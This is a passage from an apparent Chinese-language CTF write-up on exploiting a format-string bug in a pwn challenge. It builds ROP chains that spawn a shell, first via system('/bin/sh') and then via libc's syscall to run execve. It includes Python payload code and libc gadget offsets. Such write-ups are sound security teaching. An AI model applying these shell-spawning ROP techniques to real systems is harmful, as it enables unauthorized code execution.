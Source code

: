 然后写入一个 0xdeadbeef 退出 func 函数，进行 ROP：

```python
payload = p32(0xdeadbeef)
p.sendline(payload)
p.recv()
```

但是在执行过程中这里什么都没发生就结束了。经过调试，是可以正确执行到 system 里的，问题原因是这里 /bin/sh 在栈上，system 内部执行到 execve 的时候栈上那片空间可能已经被破坏。

所以可以使用 libc 内的 /bin/sh，通过 ROPgadget 可以找到：

```python
"""
pwn:
0x00000000000009c3 : pop rdi ; ret
0x00000000000006b6 : ret

remote libc:
0x00000000001b3d88 : /bin/sh

local libc:
0x00000000001d8698 : /bin/sh
"""
pop_rdi_ret = main_35 - 0x94b + 0x9c3
ret = main_35 - 0x94b + 0x6b6
binsh_libc = libc_base + (0x1b3d88 if libc_path else 0x1d8698)
fsb_write(ret_addr, p64(pop_rdi_ret))
fsb_write(ret_addr + 8, p64(binsh_libc))
fsb_write(ret_addr + 16, p64(ret))
fsb_write(ret_addr + 24, p64(system_addr))
```

![](/assets/images/sec/software/final/fsb_rop.png)

#### ROP call syscall
或者更稳定的方法是直接调用 libc 中的 syscall，这样即使 /bin/sh 在栈上也无所谓，因为 syscall 立即执行不会影响到栈上内容。

execve 的调用号为 59，作为第一个参数 rdi，第二个参数 rsi 为 /bin/sh 地址，第三四个参数 argv envp 置 0，找一些 gadget 然后构造 payload 即可：

```python
"""
pwn:
0x00000000000009c3 : pop rdi ; ret
0x00000000000006b6 : ret

remote libc:
0x0000000000023a6a : pop rsi ; ret
0x000000000011c35c : pop rdx ; pop rbx ; ret
0x00000000000e433e : pop rcx ; ret

local libc:
0x000000000002be51 : pop rsi ; ret
0x0000000000090529 : pop rdx ; pop rbx ; ret
0x000000000008c6bb : pop rcx ; ret
"""
pop_rdi_ret = main_35 - 0x94b + 0x9c3
pop_rsi_ret = libc_base + (0x23a6a if libc_path else 0x2be51)
pop_rdx_rbx_ret = libc_base + (0x11c35c if libc_path else 0x90529)
pop_rcx_ret = libc_base + (0xe433e if libc_path else 0x8c6bb)
info(f"pop rdi ; ret : {hex(pop_rdi_ret)}")

binsh_addr = fmtstr_addr + 72
syscall_addr = libc_base + libc.sym["syscall"]
info(f"syscall_addr: {hex(syscall_addr)}")

```
